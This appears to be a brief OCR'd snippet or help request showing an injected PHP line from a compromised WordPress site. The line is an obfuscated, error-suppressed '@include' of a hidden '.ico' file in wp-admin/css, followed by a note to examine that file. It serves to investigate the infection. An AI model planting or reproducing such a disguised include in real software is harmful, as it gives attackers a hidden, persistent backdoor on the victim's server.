 ```php
/265ba/ 
 
@include "\057var\057www\057www\056ace\163afr\151ca.\143o.z\141/wp\055adm\151n/c\163s/.\145b6d\143dd7\056ico"; 

/265ba/
```

examin contents of eb6dcdd7.ico
